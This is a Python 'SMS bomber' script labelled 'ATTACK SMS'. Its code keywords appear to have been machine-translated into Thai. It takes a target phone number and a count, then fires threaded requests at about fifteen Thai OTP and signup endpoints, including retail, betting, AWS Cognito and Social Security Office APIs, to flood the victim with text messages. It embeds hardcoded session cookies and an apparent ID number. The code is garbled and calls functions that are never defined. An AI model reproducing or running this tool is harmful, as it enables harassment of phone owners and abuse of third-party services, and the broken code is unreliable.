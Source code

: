 คำขอนำเข้า
 เวลานำเข้า
นำเข้า เกลียว
จาก การทำเกลียว นำเข้า Thread
พิมพ์ ( "" )
print ( " Bellx2TH " )
พิมพ์ ( "" )
phone  =  input ( "เบอร์ : " )
NUM  =  int ( อินพุต ( "จำนวน: " ))

พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺...." )
พิมพ์ ( "" )

def  api ():
	คำขอ _ โพสต์ ( "https://api-customer.lotuss.com/clubcard-bff/v1/customers/otp" , data = { "mobile_phone_no" : phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : LOTUSS" )

def  api2 ():
	คำขอ _ โพสต์ ( "https://www.aurora.co.th/signin/otp_chk" , data = f"mobile= { phone } &type_otp=3" )
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : เจสัน" )

def  api3 ():
	คำขอ _ โพสต์ ( "https://tamjaibet.com/api/request/otp" , ข้อมูล= { "PhoneNumber" : "0" + โทรศัพท์ , "เข็ม" : "HFdjc3ZU4WAnxLQQcCWB0TWV9zPCdpWmFpCUApNUtwAENbCGJkEAR9ckcdc20XMFR8HVQhEkREXwIOcDwnKRl1LDpXaQMJYB8ZSBQzZRdpem4YF3VHST0BYVQTU1NEcQATSSgpOnY3ZS9ZAFw3WSZXASwecS4LZD5wWhRicklxFQ1cFVAiczQOYxYSfUkaTD1sSSFTZU0mRDoZciRkEHV9dTE" })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MOVDIER" )

def  api4 ():
	คำขอ _ โพสต์ ( "https://store.boots.co.th/api/v1/guest/register/otp-challenge" , json = { "phone_number" : "+66" + phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : BOOT" )

def  api5 ():
	คำขอ _ post ( "https://www.carsome.co.th/website/login/sendSMS" , json = { "username" : "phone" , "optType" : 0 })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON2" )

def  api6 ():
	คำขอ _ โพสต์ ( "https://gamingnation.dtac.co.th/api/otp/generate" , json = { "template" : "register" , "phone_no" : "phone" })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : OTP " )

def  api7 ():
	คำขอ _ โพสต์ ( "https://cognito-idp.ap-southeast-1.amazonaws.com/" , headers = { "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "content-type" : "application/x-amz-json-1.1" , "x-amz-target" : "AWSCognitoIdentityProviderService.SignUp" , "x- amz-user-agent" : "aws-amplify/0.1.x js" , "ผู้อ้างอิง" : "https://www.bugaboo.tv/members/signup/phone""ClientId" : "6g47av6ddfcvi06v4l186c16d6" , "Username" : f"+66 { phone [ 1 :] } " , "Password" : "098098Az" , "UserAttributes" :[{ "Name" : "name" , "Value" : "Dbdh" },{ "Name" : "birthdate " , "Value" : "2005-01-01" },{ "Name" : "gender" ,"ค่า" : "ชาย" },{ "ชื่อ" :"phone_number" , "Value" : f"+66 { phone [ 1 :] } " },{ "Name" : "custom:phone_country_code" , "Value" : "+66" },{ "Name" : "กำหนดเอง :is_agreement" , "Value" : "true" },{ "Name" : "custom:allow_consent" , "Value" : "true" },{ "Name" : "custom:allow_person_info", "ค่า" : "จริง" }], "ValidationData":[]})
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : NODE" )

def  api8 ():
	คำขอ _ โพสต์ ( "https://cognito-idp.ap-southeast-1.amazonaws.com/"ส่วนหัว= { "cache-control" : "max-age=0" , "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "content-type" : "application/x-amz-json-1.1" , "x- amz-target" : "AWSCognitoIdentityProviderService.ResendConfirmationCode" , "x-amz-user-agent" : "aws-amplify/0.1.x js" ,"https://www.bugaboo.tv/members/resetpass/phone" }, json = { "ClientId" : "6g47av6ddfcvi06v4l186c16d6" , "Username" : f"+66 { phone [ 1 :] } " })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PYTHON" )

def  api9 ():
	คำขอ _ โพสต์ ( "https://api.scg-id.com/api/otp/send_otp"ส่วนหัว= { "ประเภทเนื้อหา" : "application/json;charset=UTF-8" }, json = { "phone_no" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : JAVA" )

def  api10 ():
	คำขอ _ โพสต์ ( "https://ep789bet.net/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C" )

def  api11 ():
	คำขอ _ โพสต์ ( "http://b226.com/x/code" , data = { f"phone" : phone })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : C+" )

def  api12 ():
	คำขอ _ โพสต์ ( "https://www.msport1688.com/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : HTML" )

def  api13 ():
	คำขอ _ รับ ( "https://m.redbus.id/api/getOtp?number=" + โทรศัพท์ [ 1 :] + "&cc=66&whatsAppOpted=true"ส่วนหัว= { "traceparent" : "00-7d1f9d70ec75d3fb488d8eb2168f2731-6b243a298da767e5-01 " , "user-agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 (KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" }) ข้อความ
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : PHP" )

def  api14 ():
	คำขอ _ โพสต์ ( "https://www.msport1688.com/auth/send_otp" , data = { "โทรศัพท์" : โทรศัพท์ })
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : MC∆T" )

def  api15 ():
	คำขอ _ โพสต์ ( 'https://www.sso.go.th/wpr/MEM/terminal/ajax_send_otp'ส่วนหัว = { "User-Agent" : "Mozilla/5.0 (Linux; Android 10; Redmi 8A) AppleWebKit/537.36 ( KHTML เช่น Gecko) Chrome/94.0.4606.85 Mobile Safari/537.36" , "Content-Type" : "application/x-www-form-urlencoded; charset=UTF-8" , "X-Requested-With" : "XMLHttpRequest " , "คุกกี้" :"sso_local_storeci_sessions=KHj9a18RowgHYWbh71T2%2FDFAcuC2%2FQaJkguD3MQ1eh%2FlwrUXvpAjJgrm6QKAja4oe7rglht%2BzO6oqblJ4EMJF4pqnY%2BGtR%2F0RzIFGN0Suh1DJVRCMPpP8QtZsF5yDyw6ibCMf2HXs95LvAMi7KUkIeaWkSahmh5f%2F3%2FqcOQ2OW5yakrMGA1mJ5upBZiUdEYNmxUAljcqrg7P3L%2BGAXxxC2u1bO09Oz4qf4ZV9ShO0gz5p5CbkE7VxIq1KUrEavn9Y%2BarQmsh1qIIc51uvCev1U1uyXfC%2F9U7uRl7x%2FVYZYT2pkLd3Q7qnZoSNBL8y9wge8Lt7grySdVLFhw9HB68dTSiOm1K04QhdrprI7EsTLWDHTgYmgyTQDuz63YjHsH5MUVanlfBISU1WXmRTXMKbUjlcl0LPPYUR9KWzrVL7sXcrCX%2FfUwLJIU%2F7MTtDYUx39y1CAREM%2F8dw7AEjcJAOA%3D%3D684b65b9b9dc33a3380c5b121b6c2b3ecb6f1bec; PHPSESSID=1s2rdo0664qpg4oteil3hhn3v2; TS01ac2b25=01584aa399fbfcc6474d383fdc1405e05eaa529fa33e596e5189664eb7dfefe57b927d8801ad40fba49f0adec4ce717dd5eabf08d7080e2b85f34368a92a47e71ef07861a287c40da15c0688649509d7f97eb2c293; _ga=GA1.3.1824294570.1636876684; _gid=GA1.3.1832635291.1636876684"}, data = f"dCard=1358231116147&Mobile= { phone } &password=098098Az&repassword=098098Az&perPrefix=Mr.&cn=Dhdhhs&sn=Vssbsh&perBirthday=5&perBirthmonth=5&perBirthyear=2545&Email=40 gmaidtype "
	พิมพ์ ( "𝑨𝑻𝑻𝑨𝑪𝑲 𝑺𝑴𝑺 : END" )



สำหรับ ฉัน อยู่ใน ช่วง ( NUM ):
	เกลียว _ เธรด ( เป้าหมาย= api ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api2 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api3 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api4 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api5 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api6 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api7 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api8 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api9 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api10 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api11 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api12 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api13 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api14 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api15 ) เริ่ม () 
	เกลียว _ เธรด ( เป้าหมาย= api16 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api17 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api18) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api19 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api20) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api21) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api22) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api23 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api24 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api 25) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api26 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api27 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api28 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api29 ) เริ่ม ()
	เกลียว _ เธรด ( เป้าหมาย= api30 ) เริ่ม () 
